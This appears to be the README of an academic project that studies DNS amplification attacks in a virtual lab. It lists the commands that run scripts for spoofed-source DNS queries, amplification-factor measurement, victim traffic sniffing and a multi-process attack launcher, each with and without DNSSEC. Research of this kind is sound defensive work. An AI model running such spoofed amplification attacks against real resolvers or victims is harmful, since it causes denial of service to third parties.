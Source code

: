 # Development and Study of a DNS Amplification Attack in a Virtual Environment

The aim of this project was to implement the scripts on this Github repository in order to study the DNS Amplification attack in a controlled virtual environment. You will find various scripts within this project.

## DNS Query Script for Amplification Rate Calculation: sendQuery.py

To launch this script, simply run the following command from the folder containing the entire project on the attacker machine.

Without DNSSEC:
```bash
sudo python3.9 attack/sendQuery.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60
```
With DNSSEC:
```bash
sudo python3.9 attack/sendQuery.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60 --dnssec
```

## DNS Server Amplification Rate Calculation Script: calculateAF.py

To launch this script, simply run the following command from the folder containing the entire project on the server machine.

Without DNSSEC:
```bash
sudo python3 server/calculateAF.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io
```
With DNSSEC:
Without DNSSEC:
```bash
sudo python3 server/calculateAF.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io --dnssec
```

## DNS Traffic Sniffing Script: viewTraffic.py

To launch this script, simply run the following command from the folder containing the entire project on the victim machine.

Without DNSSEC:
```bash
sudo python3 victim/viewTraffic.py
```
With DNSSEC:
```bash
sudo python3 victim/viewTraffic.py --dnssec
```

## DNS Amplification Attack Script: dnsAttack.py

To launch this script, simply run the following command from the folder containing the entire project on the attacker machine.

Without DNSSEC:
```bash
sudo python3.9 attack/dnsAttack.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60 -n <Number of process>
```
With DNSSEC:
```bash
sudo python3.9 attack/dnsAttack.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60 -n <Number of process> --dnssec
```

## Scenarios of use

To illustrate how different scripts can be used to observe and study this attack, here are several videos featuring different usage scenarios.

### First Scenario

This scenario shows how an attacker can run the sendQuery.py script to launch DNS queries designed to measure amplification factors. This scenario also shows how to run the calculateAF.py script on the DNS server in order to calculate and observe amplification factors. Finally, this scenario shows how to run the viewTraffic.py script on the victim machine, in order to observe DNS traffic and performance on this machine.

#### Without DNSSEC
![](video/dns-calculateAF-full.gif)
